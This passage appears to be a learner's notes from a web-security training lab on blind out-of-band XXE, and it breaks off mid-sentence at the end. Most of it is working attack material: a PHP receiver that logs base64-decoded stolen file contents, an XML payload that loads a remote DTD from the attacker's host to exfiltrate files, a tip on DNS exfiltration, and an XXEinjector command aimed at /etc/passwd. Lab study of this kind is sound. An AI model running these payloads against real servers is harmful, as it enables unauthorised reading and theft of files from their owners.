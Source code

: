 The file we want to read had the content of XXE_SAMPLE_DATA, then the file parameter would hold its base64 encoded data. When the XML tries to reference the external oob parameter form our machine, it will request [http://ip:8000/?content=base64 code]
we can write a simple PHP script that automatically detects the encoded file content.

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
We'll first write the above PHP code to index.php and then start a PHP server on 800 port:
`php -S 0.0.0.0:8000`
Now to initiate our attack, we can use similar payload to the one we used in teh error-based attack, adn simply add [<root>&content;] </root>, which is
needed to reference our entity and have it send the request to our machine with the file content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
> [!TIP]
> In addition to storing our base64 encoded data s a parameter to our URL, we may utilize DNS OBB Exfiltration by placing the encoded data as a sub-domain for our URL and then use a tool like tcp dum to caputure any incoming trafic.

- Automated OOB Exfiltration:
Tool ios [XXEinjector](https://github.com/enjoiz/XXEinjector), this tool supports most of the tricks we learned in this module. to use:
    - Recepter:
```js
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
We cna run the --host/--httport flags begin our IP and port, the --file flag and the --path flag. We also selectet the --oob=http and --phpfiler flag.
```sh
uby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```
Then we cat the pass.log and see
